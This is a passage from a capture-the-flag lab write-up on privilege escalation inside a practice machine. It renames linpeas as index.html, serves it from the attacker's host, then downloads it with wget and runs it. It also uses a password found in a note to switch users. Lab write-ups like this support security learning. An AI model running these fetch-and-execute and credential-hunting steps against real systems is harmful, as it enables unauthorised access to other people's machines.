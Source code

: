 
That may be the password for `sandra`, let's try to switch:

```
sandra:ilovemydaughter
```

```
gilbert@tonhotel:/home$ su sandra
Password:
su: Authentication failure
```

No luck, let's keep on looking, we can get linpeas on the machine using a simple trick, since we know that we only can use ports `80` and `443`, we can do this:

```python
cp linpeas.sh index.html
sudo python3 -m http.server 80
wget http://IP/index.html
mv index.html linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Once we run linpeas, we can find a `/srv` directory which contains a `/srv/.dad` file:

```
gilbert@tonhotel:/tmp$ cat /srv/.dad
i cant deal with your attacks on my friends rn dad, i need to take some time away from the hotel. if you need access to the ton site, my pw is where id rather be: anywherebuthere. -S
```

This is the password for `Sandra:`

```
sandra:anywherebuthere
```

![Pasted image 20250702181202.png](../../IMAGES/Pasted%20image%2020250702181202.png)

Let's run `linpeas` again, once we run it, we can find a `boss.jpg` file on the `Pictures` directory of our home:

```
sandra@tonhotel:/tmp$ ls -la /home/sandra/Pictures/
total 40
drwxrwx--- 2 sandra sandra  4096 Sep 10  2023 .
drwxr-xr-x 5 sandra sandra  4096 Jul  2 23:13 ..
-rw-rw---- 1 sandra sandra 32637 Sep  7  2023 boss.jpg
```
